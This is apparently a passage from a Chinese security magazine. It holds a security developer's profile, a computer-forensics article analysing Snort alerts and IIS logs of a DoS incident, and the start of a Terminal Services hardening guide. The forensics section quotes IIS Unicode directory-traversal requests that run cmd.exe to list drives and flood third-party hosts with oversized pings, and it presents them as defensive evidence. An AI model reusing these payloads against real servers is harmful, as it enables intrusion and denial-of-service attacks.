- 系统缓冲区
- 打印机及其它设备的内存等等

- 防火墙日志
- IDS 日志
- 其它网络工具所产生的记录和日志等

有时候网络证据的获取可能需要多方面的配合，譬如对采用了跳板的黑客攻击源的跟踪。

在搜集计算机证据时必须非常谨慎，我们必须保持数据的原始性，无意之中就可能引起证据某些关键信息的变化，譬如打开文件会使文件访问时间发生变化，拷贝文件会使文件创建时间发生改变等等，这都要求我们必须采用新的技术进行操作。由于目前的网络安全研究多着眼于入侵防范，而对于入侵后的取证问题研究比较少，可利用的工具更少。计算机取证系统的研究，也是尝试从技术的角度解决计算机的取证问题。

为适应信息安全和网络安全的发展形势，我国政府制定了一系列基本的管理办法，并且在刑法的修订中，也增加了有关计算机犯罪的条款。计算机证据作为网络犯罪诉讼的核心，计算机取证的研究已经变得刻不容缓！

# Shanlu 自述：路靠自己走

某安全公司 IDS 项目经理陈建芳

从 Shanlu 其名可以联想到其人的性格，一种不服输的精神，一种挑战自我的精神。其实，对于每一个成功人士来讲，都需要这样一种精神。前些天有幸和 Shanlu 大哥一聚，颇有感悟，下边就听 Shanlu 娓娓道来。

## 上天赋予我浓厚的兴趣

我是 93 年开始接触计算机的，也许天生就为其着迷，随后近十年就一直是我的计算机生涯了。当时条件比较差，学校就 40 多台苹果 II 机器和几台黑白显示器的 286 机器。我并非计算机专业，学的是电信专业，当时接触的只有几门简单的计算机课程，就 BASIC、PASCAL、计算机原理和数据结构。初次接触计算机的我被病毒整得好惨啊，拷了一张 DOS 引导盘当宝贝，却不知道里边全是病毒，几乎一半上机的时间花在杀毒上，当时拿它一点脾气都没有，心想，以后有机会也要好好去整整别人。

后来的一年半，我自学了操作系统、C、C++、数据库和软件工程等，这样也让自己在计算机方面慢慢专业起来。程序写多了，觉得计算机语言换汤不换药，用的时候查查语法函数调用资料就行，关键还是算法。我早期对无线电电子学很感兴趣，在校期间所学专业对硬件知识要求也高，所以有段时间对硬件开发也花了不少工夫，也许是这样，使我对计算机机理、操作系统内核以及汇编有了更多的了解。第一个病毒程序编制的成功给我很大的信心和满足感，是一个结合引导和文件型病毒，记得那时《深入 DOS 编程》和《未公开的 DOS 核心技术》两本书对我帮助特别大。

## 机遇与挑战并存

一个好的机遇对人的发展是很重要的，当时由于特殊原因我拥有自己的“专用”办公室和机器。随后跟大多计算机痴迷者一样，编写了很多小玩意，如一个自己的小型操作系统，一个图形处理程序，一段经典的游戏代码，别小看这些不成章的东西，对技术发展的确是经验的积累。后来我为学校编写了很多软件，也因为这样我毕业以后留在学校工作了，并负责校园网和办公自动化，大概在 95 年底，我接触互联网。天行是我的师弟，我当时在校工作的时候，我的办公室就成了他的工作室了。他的创造力和想象力比我强，时常有些稀奇古怪的想法。记得那时他在玩 SUN OS 的时候，我边在一旁看热闹，边着迷着我的 MUD 聊天程序的设计，在他的影响下我对黑客技术和信息安全技术也产生浓厚兴趣，觉得跟病毒一样也是个整人的乐子。也许是有着编程经验和操作系统的了解，我很快就熟悉各种入侵原理和防范技术，既然是一名程序员，也许程序就是我最好的体现方式了。

1999 年和 2000 年是互联网热潮，信息安全相当热门。当时有不少老牌“黑客”（现在这样称呼他们实在不妥）浮出水面，从事着信息安全职业。这些人原本就不是破坏者，他们商业化的过程，既影响着安全界，又是人们真正化除误解认识他们的过程。我和天行也在此间来到深圳一家公司从事入侵检测系统开发，几年来我们一直研究这一块领域。

现在真的不一样了，经过那么多年发展，信息安全技术逐步系统化、理论化，不少高校都相继有了信息安全专业了，政府和企业也都重视安全，得到了普及。近几年信息安全人才辈出，发展到一个巅峰时期，如果把他们比作正规军，那我们当时就是游击队了。相比之下，略有感觉，现在黑客技术痴迷者，崇拜性和模仿性较大，欠缺应有的自发创造性。老牌专家们在商业化的过程，又逐步忽略对技术的创造更新，高校和各信息安全研究所又很难和企业结合，技术研究不贴商用。就安全界来说，都渴望着富有创造力能把技术和市场实际结合，真正能把技术产品化商业化的人才。

## 黑客技术和信息安全技术

经常有朋友问我，如何才能学好黑客技术和信息安全技术。我想，这两门学科相互贯穿，并包罗着计算机领域的各个方面，似乎没有被忽略的环节。当然也有个重点，首先应该有扎实的计算机基础，尤其是操作系统原理，其次最好能掌握并精通一门计算机语言并最好是像汇编或者 C、C++ 这样的能直接反映代码和数据在内存中存放和变化的语言，因为多数漏洞都是由于数据和代码同在并可共享存储体中（目前多半的微机体系都是这样的）造成的，这是个先天的缺陷，我想如果你是个优秀的程序员想学安全就不难了，往那边靠靠就成。还有，你必须要能吃苦，能坚持，我想这点对计算机痴迷者就不在话下了，在计算机前一坐就是一天，为了一个解决不了的问题熬熬夜那是常有的事情了。

有朋友说，我并不想学会去黑别人，只要能保证我的机器不被别人黑就可以了。似乎做安全要比做破坏更难，难道为了保住机器不被别人黑就一定要去学习那项烦人的安全技术了吗，那倒未必，这么烦人的事情就交给安全专家去做了。其实做好安全很多时候就是你有没有这个意识，是一个习惯问题。例如使用一个复杂的密码，把你的操作系统打打补丁，就能很大程度杜绝隐患，有多少所谓的“肉机”，都是密码为空或者密码简单造成的。缺省安装的操作系统是安全隐患最多的，一定要打补丁。做好安全还要持之以恒，时常跟进最新的安全动态，如果你没有那么多的精力去留意这些，那么你可以订阅一些安全论坛。做好了以上这些只能杜绝一些基于服务端的漏洞，还有一些如恶意的网页，带病毒或者破坏性代码的电子邮件等，这就要靠你平时多留意了。此外，现在已经有不少安全工具供使用，比如个人防火墙、杀毒软件等，可以试着用一用，也会有很大效果。只要你有心，防患于未然，倒霉的不会是你。

## 冷眼看安全

就目前来看，IT 行业确实还在寒冬，略有回升，信息安全行业竞争激烈。国内各安全产品厂家对自身产品的定位和发展也都处于摸索和观望阶段。产品朝着多元化和集成化两个矛盾的方向发展，我个人主张多元化，主要是从技术角度考虑。因为网络带宽是不断在扩张的，功能多而复杂的软件产品恐怕真的很难得到在高端的应用。具体哪个好，还是市场说了算，就如有人喜欢买个带 MP3、动画的数码相机，有人喜欢买高性能专业的数码相机。还有，产品必须真正硬件化，现在多数“硬件”产品还是软件固化的方式出现的，就国内芯片防火墙还是空白，更别说入侵检测系统了，就目前看，骨干网络节点和宽带应用点，国内安全产品还真难站住脚。

我这几年的发展可不是一帆风顺的，时常会遇到一些公司经营不善，产品销售不好等困扰，甚至过去在一家公司还拖欠薪水等，有时会有抱怨，但我从没真正后悔过。我想我会坚持信息安全这一行业的，尽管目前困难很大。我的同事 story xiao 说过，IT 行业是个让人类工具用品信息化智能化的行业，人类的智慧是无限的，IT 行业自然永远年轻，那么信息安全自然不是可以忽略的行业。今后可能依旧研究入侵检测技术和其扩展的相关产品和技术。是的，近两年一直从事商业产品的开发，还真忽略了跟各位朋友的交流，时常在 QQ 上跟我聊时，我都没时间。以后我想会多花点时间跟大伙一起探讨技术，也希望能有时间写些小作品。

说道黑客攻击事件，我想大家都应该极为熟悉了，毕竟上期专题我们还谈了美伊大战引发的黑客大战！本期专题我们谈点什么呢？同样和黑客攻击有关，只不过是黑客攻击的另一面。计算机犯罪目前是越来越严重了，如何有效地抵制这类犯罪，已经成为我们不得不面对的问题。为了有效惩治和防范计算机犯罪，各国纷纷加快这方面的立法，美国已经拥有世界上最完善的反计算机犯罪法律，我国也将计算机犯罪列入了《刑法》之中。但仅靠法律条例还是远远解决不了问题的，我们还必须依靠计算机取证技术。这也正是我们今天要谈的主题。

# 抓住罪恶的黑手
## ——论计算机取证技术

文 / killqq

据权威资料显示，1992 年以来，黑客攻击、信息盗窃、金融诈骗、内部人士网络滥用、病毒等计算机犯罪事件迅猛增加，但实际起诉的案件数量却没有变化。原因就在于，因为取证棘手，很多案件由于证据缺乏而不得不放弃起诉。如果采用现有的计算机高科技，组织各方面人力进行调查取证，搜寻确认罪犯和犯罪事实并进行起诉，就可以很大程度上减少这类犯罪，并为企业挽回损失。可见，在目前网络安全形势严峻的情况下，实施并推广计算机取证具有十分重要的意义。

计算机取证一般包含如下 5 个步骤：
1. 识别证据：识别可获取的信息的类型，以及获取的方法；
2. 传输证据：将获取的信息安全地传送到取证分析机上；
3. 保存证据：确保跟原始数据一致，不对原始数据造成改动和破坏；
4. 分析证据：以可见的方式显示。结果要具有确定性，不要作任何假设；
5. 提交证据：向管理者、律师或者法院提交证据。

## 一、计算机取证及其特点

关于计算机取证的定义多种多样，目前还没有权威组织给了一个明确、完整的定义。它可简单表述为：使用计算机软件和工具进行分析、研究，从特定活动中寻找和提取法律证据的过程。也可以这么定义：计算机取证是指对计算机入侵、破坏、欺诈、攻击等犯罪行为，利用计算机软硬件技术，按照符合法律规范的方式进行识别、保存、分析和提交数字证据的过程。取证的目的是为了据此找出入侵者或入侵的机器，并解释入侵的过程。

计算机取证有如下几个特点：

1. **容易被改变或删除，并且改变后不容易被发觉**  
   传统证据如书面文件可以长久保存，如有改动或添加，都会留有痕迹，通常不难察觉，如有疑问可由专家通过成熟的司法鉴定技术加以鉴别。而数字证据与传统证据不同，它们多以磁性介质为载体。由于磁性介质保存的数据内容可以被改动，并且不易留下痕迹，因此数字证据的真实性和安全性存在疑问。一旦发生争议，这种数字证据难以在诉讼或仲裁中被采纳为合法的证据。

2. **多种格式的存储方式**  
   数字证据以计算机为载体，其实质是以一定格式储存在计算机硬盘、软盘或 CDROM 等储存介质中。

## 质上的二进制代码，它的形成和还原都要借助于计算机设备。另外，随着多媒体技术的出现，数字证据综合了文本、图形、图像、动画、音频及视频等多种媒体信息，这种以多媒体形式存在的电子证据几乎涵盖了所有传统证据类型。

### 3．易损毁性

计算机信息最终都是用二进制数字表示的，以数字信号的方式存在，而数字信号是非连续性的，因此对数字证据进行接收、监听、删节、剪接等操作，从直观上讲无法查清。或者由于操作人员的误操作或供电系统、通信网络的故障等环境和技术方面的原因，都会造成数字证据的不完整性。

### 4．高科技性

计算机是现代化的计算、通信工具和信息处理工具，其证据的产生、储存和传输，都必须借助于计算机软硬件技术、存储技术、网络技术等，离开了高科技含量的技术设备，电子证据无法保存和传输。如果没有外界的蓄意篡改或差错的影响，电子证据就能准确地储存并反映有关案件的情况。正是以这种高技术为依托，使它很少受主观因素的影响，其精确性决定了电子证据具有较强的证明力。而电子证据的收集和审查判断，往往需要一定的科学技术，甚至是尖端的科学技术，并且伴随科技的发展进程会不断地更新、变化。

- 5. 传输中通常和其他无关信息共享信道。

## 二、计算机取证的基本原则

- 1. 尽早搜集证据，并保证其没有受到任何破坏。
- 2. 必须保证“证据连续性”，即在证据正式提交到法庭时，必须能够说明在证据从最初的获取状态到在法庭上出现状态之间的任何变化，当然最后是没有任何变化。
- 3. 整个检查、取证过程必须受到监督。

## 三、一些取证工具的介绍

- 1. 硬件数据采集器。存在于主机、硬盘或网络中，对读写等操作进行记录，可快速查看磁盘、校验、分析，并可形成技术报告，如 Guidance Software 的 Fast Bloc 数据采集器。
- 2. EnCase、Guidance Software 的开发，提供图形界面来查看和管理所有的证据。另外，软件还记录操作者和操作时间。
- 3. SafeBack，New Technologies Inc，主要是为美国联邦法律执行机构提供的高级证据保护工具。（http://www.forensics-intl.com/safeback.html）
- 4. The Coroner's Toolkit 利用文件的最近修改、访问或（MAC），改变的时间进行分析，并且根据数据节点的值提取出文件列表以进行恢复。
- 5. 对 DoS 攻击的快速反应。检测攻击的节点并向 ISP 反馈，引诱攻击进入像 ManTrap 的假目标以获得足够信息。
- 6. 其他一些工具的功能，如：系统监测，监视当前进程，CPU，磁盘读写并记录；端口扫描，对 Rootkit 的匹配检查；过滤非字符信息，以使传统文件编辑器处理；各种口令破解工具。

## 四、取证分析方案

主要可分为实时取证和事后取证。

- 1. 实时取证：与 IDS、HoneyPot、Honeynet 的紧密结合，IDS、HoneyPot、Honeynet 实时获取数据并进行分析，智能分析攻击者的企图，实施相应的动作，或切断连接，或诱敌深入，在确保安全的情况下获取攻击者的大量证据。
- 2. 事后取证：在已遭受入侵的情况下，运用各种技术手段进行分析取证工作。

在目前来说，事后取证是最主要的取证方案，而目前最流行的事后取证方案是日志分析。详细地审查系统日志文件，可以了解入侵过程中攻击者执行了哪些操作，以及哪些远程主机访问了你的主机，但系统中的任何日志文件都可能被入侵者改动过。对于 Unix 系统，可能需要查看 /etc/syslog.conf 文件确定日志信息文件在哪些位置。NT 通常使用 3 个日志文件，它们记录所有的事件，每个事件都会被记录到其中的一个文件，使用 EventViewer 可以查看日志文件。

## 五、实例分析

### 1．Snort 工具及其应用

Snort 作为一个 NIDS（基于网络的入侵检测系统），可以很好地检测到对系统的攻击并记录下来，从而可以达到实时取证和事后取证的目的。

Snort 的工作原理为在基于共享的网络上检测原始的网络传输数据，通过分析捕获的数据包，主要工作为匹配入侵行为的特征或者从网络活动的角度检测异常行为，进而采取入侵的预警或记录。从检测模式而言，Snort 属于误用检测（注：该方法对已知攻击的特征模式进行匹配，包括利用工作在网卡混杂模式下的嗅探器被动地进行协议分析，以及对一系列数据包解释分析特征）。从本质上来说，Snort 是基于规则检测的入侵检测工具，即针对每一种入侵行为，都提炼出它的特征值并按照规范写成检验规则，从而形成一个规则数据库。其次，将捕获的数据包按照规则库逐一匹配，若匹配成功，则认为该入侵行为成立。Snort 包括以下几个模块系统。

- 1. 数据包捕获和解析子系统

该子系统的功能为捕获网络的传输数据并按照 TCP/IP 协议的不同层次将数据包进行解析。Snort 利用 libpcap 库函数进行采集数据，该库函数可以为应用程序提供直接从链路层捕获数据包的接口函数，并可以设置数据包的过滤器用来捕获指定的数据。网络数据采集和解析机制是整个 NIDS 实现的基础，其中最关键的是要保证高速和低的丢包率，这不仅仅取决于软件的效率，还与硬件的处理能力相关。对于解析机制来说，能够处理数据包的类型的多样性也同样非常重要，目前，Snort 可以处理以太网、令牌环以及 SLIP 等多种链路类型的包。

- 2. 检测引擎

检测引擎是一个 NIDS 实现的核心，准确性和快速性是衡量其性能的重要指标。前者主要取决于对入侵行为特征码提炼的精确性和规则撰写的简洁实用性，由于网络入侵检测系统自身角色的被动性——只能被动地检测经过本网络的数据，而不能主动发送数据包去探测，所以只有将入侵行为的特征码归结为协议的不同字段的特征值，通过检测该特征值来决定入侵行为是否发生。后者主要取决于引擎的组织结构是否能够快速地进行规则匹配。

#### 1）一次攻击案例分析

在 10 月 3 日 12:06 时，Snort 发出报警，报告说现在我的系统中某一台服务器遭受到攻击。Snort 检测到攻击并且将有关信息放到 /var/log/messages 文件中。下面是 Snort 的记录：

```
Oct 3 12:06:05 king Snort[6511]: IDS131/nops--x86: 202.XXX.XXX.XXX:1253->210.XXX.XXX.XXX:1320

Oct 3 12:07:11 king PAM_pwdb[7854]:(login) session opened for user one by (uid=0)

Oct 3 12:08:56 king PAM_pwdb[7859]:(su) session opened for user king by one(uid=513)
```

其中，210.XXX.XXX.XXX 是我的机器（也就是被攻击的机器），202.XXX.XXX.XXX 是扫描并登录我机器的攻击者地址。

从分析中得知，攻击者已经得到 root 权限，登录到我机器上，并且现在已经控制了系统，入侵者可以任意修改系统设置，对我机器产生了严重威胁。由于我的不谨慎，未能将前几天的系统日志保存下来，这导致我无法查到攻击者对主机进行扫描并查出主机的系统漏洞的时间。

但是，Snort 工具可以收集到所有 IP 包的详细内容，所以我们可以来分析攻击行为。所有信息都使用 tcpdump 二进制格式保存在 Snort 的日志文件中，幸运的是，这个攻击者是个新手，没有将日志文件删除，这就为后续查证他的攻击行为提供了依据。这次他运行的是针对缓冲区漏洞的程序（具体是什么程序目前还没查明），其目的就是要获取到远程机器上的 root shell。一旦他得到了 root shell，就能够执行任意的命令。最常见的方法是通过修改账号、密码，或者自己设置后门程序，为后续攻击提供方便。同时，Snort 可以解开其踪迹和捕获其击键记录，Snort 不仅可以捕获 STDIN（击键），而且可以捕获 STDOUT 和 STDERR 记录，这样可以看出攻击者对机器做了什么手脚。但要是数据经过加密的话，那也只能看到密文，而不是明文。不过，许多攻击者是通过 Telnet 上机器，在机器上设置后门。而 Telnet 是明文通讯协议，对数据没有进行加密，所以 Snort 还是可以很有效地记录攻击者的行为。

虽然这次攻击因为数据包被拦截下来没能继续下去，但是此次 Snort 记录为后续的犯罪取证提供了可靠依据。

#### 2）对一次入侵秀的分析

再看一个网上提及过的有关 Snort 的例子，这应该说是一次入侵秀：用其他机器模拟攻击的。

一天下午，Snort 报警提示有来自 202.X.X.X 的 SuperScan 扫描，发送了 ICMP Echo 的数据包测试系统是否存活：

```
2002-9-21 16:48 snort[1852]: [1:474:1] ICMPsuperscan
echo [Classification: Attempted Information Leak]
[Priority: 2]: {ICMP} 202.X.X.X -> 10.0.0.1
```

同时，系统日志记录了后续进行的端口探测活动：

```
2002-9-21 16:48 in.rlogind[1316]: connect from 210.
X.X.X
2002-9-21 16:48 inetd[413]: pid 1318, exit status 1
2002-9-21 16:48 in.rshd[1318]: connect from 210.X.
X.X.X
2002-9-21 16:48 in.fingerd[1315]: connect from 210.
X.X.X
2002-9-21 16:48 in.telnetd[1313]: connect from 210.
X.X.X
```

```
2002-9-21 16:48 rshd[1318]: Connection from 210.
X.X.X on ilegal port
2002-9-21 16:48 telnetd[1313]: tloop: peer died:
EOF
2002-9-21 16:48 inetd[413]: pid 1316 exit
status 1
2002-9-21 16:48 inetd[413]: pid 1313 exit
status 1
2002-9-21 16:48 sendmail[1314]: NOQUEUE:
Null connection from: [210.X.X.X]
2002-9-21 16:48 in.fingerd[1319]: connect
from 210.X.X.X
2002-9-21 16:48 in.telnetd[1320]: connect from
210.X.X.X
```

这些端口连接的源地址不是发送 ICMP Echo 的 202.X.X.X，而是 210.X.X.X 这个地址。很显然，攻击模拟者是使用了 TCP/UDP 协议的代理跳板，而 ICMP 协议不被该跳板支持，所以他的真实 IP 地址也暴露了。这样，用 Snort 配合系统日志可以分析出攻击者的攻击行为。

### 2. 一次 D.O.S 攻击的计算机犯罪取证

广东某次计算机攻击事件曾经引起大家的广泛关注，下面我就对此次事件做一个简单的分析，作为计算机犯罪取证的一个例子。

某日，广东某 ISP 和广东某数据分局发现不少异常情况，类似攻击行为。而且，内部机器 202.xxx.xxx.219、202.xxx.xxx.237 对外产生大量扫描行为，ICMP 包比例达到 25% 以上，这是一种很典型的 ICMP 类 D.O.S. 攻击。

典型的拒绝服务攻击有如下两种形式：资源耗尽和资源过载。当一个对资源的合理请求大大超过资源的支付能力时，就会造成拒绝服务攻击（例如，对已经满载的 Web 服务器进行过多的请求）。拒绝服务攻击还有可能是由于软件的弱点或者对程序的错误配置造成的。

进一步分析数据包，发现攻击来自不同的 IP。其中，两个 IP 来自上述某 ISP 3 台攻击源其中的两台 202.xxx.xxx.250 和 202.xxx.xxx.251。

通过分析某数据分局的 8010 服务器（61.xxx.xxx.34）受攻击时的网络数据包分析图，发现大量来自 202.xxx.xxx.251 和 202.xxx.xxx.250 的 ICMP 垃圾包；通过分析某 ISP 的网警数据，发现 ICMP 包已经超过 30%，这是典型的 ICMP 类 D.O.S. 攻击。

通过察看其他图表发现：攻击源依然是内部托管的用户主机 202.xxx.xxx.208、202.xxx.xxx.250、202.xxx.xxx.251 3 台机器，但攻击目标已经改变为 61.xxx.xxx.157。

为什么攻击者两次找上这样的大型 ISP 呢，因为 ISP 为很多中小型企业提供了各种规模的主机托管业务，主机的高性能、高带宽是进行 D.O.S. 攻击的有利条件，所以攻击者频繁地选择它作为攻击对象不足为奇。

对于这类攻击也有一些防御措施：

- 1. 禁止对主机的非开放服务的访问；
2. 限制同时打开的 SYN 最大连接数；
3. 限制特定 IP 地址的访问；
4. 严格限制对外开放的服务器的向外访问；

这样可以有效地防止攻击行为继续进行下去。

分析 202.xxx.xxx.208 的 IIS 日志，发现已经有来自 IP：202.98.223.237 使用 IIS UNICODE 漏洞对 202.xxx.xxx.208 进行初步入侵。从 3 月 6 日起，就发现来自不同源 IP 的 URL 请求使用同一漏洞调用 PING 程序对不同的攻击目标进行攻击（具体请看日志片段）。

```
2001-03-06 16:37:52 202.105.40.225 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.140.163.140 502

2001-03-06 17:12:38 61.128.158.33 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.128.137.236 502

2001-03-06 17:26:14 61.158.242.23 - 202.104.139.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.143.3.140 502

2001-03-06 17:27:39 61.139.23.86 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.139.36.97 502

2001-03-06 18:34:25 61.147.61.202 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+6666+61.132.13.225 502

2001-03-06 19:44:52 61.139.23.86 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.141.80.200 502

2001-03-06 23:22:54 24.108.6.81 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+216.66.144.94 502

2001-04-10 00:51:21 61.144.246.135 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+100+61.150.227.133 502

2001-04-10 00:52:30 211.167.112.14 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502

2001-04-10 01:03:19 211.167.112.14 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502

2001-04-10 01:14:05 211.167.112.14 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502

2001-04-10 01:17:55 211.98.23.125 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+200+211.98.23.134 502

2001-04-10 01:43:51 211.167.112.14 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502
```

```
2001-03-05 02:45:41 202.98.223.237（第一次攻击来源 IP） - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+dir%20c:\
200 - （第一次攻击）

2001-03-06 14:55:22 211.159.7.248 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+211.159.5.9 502

2001-03-06 16:03:09 202.100.207.75 - 202.xxx.xxx.208 80 GET /scripts/..\..\winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+202.100.88.68 502
```

这里简单解释一下该日志中的部分内容：

```
2001-03-06 14:55:22 211.159.7.248 - 202.
xxx.xxx.208 80 GET /scripts/..\../winnt/sys-
tem32/cmd.exe /c+ping+-l+65000+-n+500+211.
159.5.9 502
```

前面是日期和时间，211.159.7.248 是请求源，202.xxx.xxx.208 是中间机器（跳板）。“GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+211.159.5.9”是通过执行中间机器 cmd.exe 命令的 PING 程序。“-l+65000”是发送的包大小；“-n+500”是发送次数；211.159.5.9 是目标机器；502 代表请求返回的错误码。

在日志中，请求源并非固定的 IP，每次 PING 程序所指定的目标主机也不是固定的，黑客用了一定的技巧使请求源成为随机 IP，也很可能是分布式的拒绝服务攻（D.D.o.S）。

从对两台机器日志的分析来看，初次访问这两台机器该漏洞的 IP 是相同的。所以，202.98.223.237 应该是肇事者 IP。

最后，有关单位收集提取有关电子证据，配合客户向公安机关报案，并对本案肇事者进行了锁定。

### 3．此次取证过程的分析

这次取证是在坚持计算机取证的大原则下进行的，并且有自己的特点。

- 1. 尽量多搜集证据，并保证其没有受到任何破坏，保持证据的完整性、真实性、可靠性。
2. 保证了“证据连续性”，在证据正式提交到公安机关时，记录了攻击者的一切行为，为将来的法庭调查提供了可靠依据。
3. 整个检查、取证过程是在网警安全工具的监督下进行，在多位专家级的网络工程师的协助下完成的。

这次取证过程依旧遵循了计算机取证的几个步骤：

- 1. 识别证据：识别攻击者的攻击行为和方法（D.o.S 攻击）；
- 2. 保存证据：将系统日志和其他网络工具、监视工具记录的信息完整地保存下来，不做任何改动破坏；
3. 分析证据：以可见的方式显示，以事实为依据对攻击者的攻击行为进行分析，最后锁定 202.98.223.237 是肇事者 IP；
4. 提交证据：安络收集提取有关电子证据，配合客户向公安机关报案。

这次取证过程结合了实时取证和事后取证两种方案。

实时取证：网络工程师利用现有的工具（网警）对广东某 ISP 和广东某数据分局进行了实时监控、实时获取数据并进行分析，智能分析攻击者的企图，并做出了相应的对策：

- 1. 关闭 ICMP 通信来预防同类攻击，在其交换机 CISC05509 上采取相应的措施。
2. 安装网警，检测是否存在其他人入侵。目前网警已经处于正常运行中。
3. 联系某 ISP 进行取证，发现入侵源。在确保安全的情况下，获取攻击者的大量证据。

事后取证：在已遭受入侵的情况下，运用日志分析详细地审查系统日志文件。进行分析取证工作，可以了解入侵过程中攻击者执行了哪些操作，以及哪些远程主机访问了你的主机。网络工程师分析了 202.xxx.xxx.208 的 IIS 日志和在 3 月 6 日入侵系统时的日志，最终将该案肇事者锁定。

## 六．后记

由于目前的网络安全研究多着眼于入侵防范，而对于入侵后的取证问题研究甚少，可利用的工具就更少了。计算机取证系统的研究，必须在坚持计算机取证的大原则下，遵循取证的步骤，确保证据的完整性、真实性、可靠性。在取证方案的选择上应该结合实时取证和事后取证两种方案，这样才可以有效地进行取证，并结合公安机关和法律的力量，将计算机犯罪行为有效地遏制住。

# 加强终端服务的安全性




文／黄树东

Windows 2000 终端服务（本文以 Windows 2000 Server 为基准，下同）由于使用简单、方便等特点，备受众多管理员喜爱，很多管理员都利用它作为远程管理的一个重要工具。然而，正是由于它使用简单、方便，不与当前用户产生一个交互式登录，可以在后台登录操作，它也受到了黑客的青睐。这不，现在有大把大把的人在成功入侵目标机器后会想尽办法，不惜重启对方机器，明目张胆地将终端服务安装上。目的非常明显，就是方便自己进入进行操作。也正是这些原因，导致它的安全性备受非议。

其实，自 N 年前那个输入法漏洞之后，终端服务还没有出现大的漏洞，虽然输入法漏洞给无数管理员带来了恶梦，但平心而论，这个漏洞还不能完完全全说是终端的“错”。毕竟它也是“受害者”之一。

我认为，系统的终端服务在经过认真的配置之后，它的安全性还是很不错的，只是终端的默认配置没有开启相应的安全策略，让人对它的安全性打了个问号而已。

现在，我们来给它加强一下安全性问题。

## 一、修改终端服务的端口

我们知道，Windows 2000 的终端服务安装完成后默认打开的端口是 3389，结果，全世界的人都知道只要有机器开了 3389 端口，那十有八九就是 windows 的终端服务了。这经常会引来一些无聊人的兴趣及一些不必要的攻击。有什么办法呢？我们将原端口改掉，改成不常用又容易记的端口。要修改它的默认端口，必须在注册表中修改。我们打开注册表并找到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\TerminalServer\Wds\Rdpwd\Tds\Tcp`，如图 1 所示。

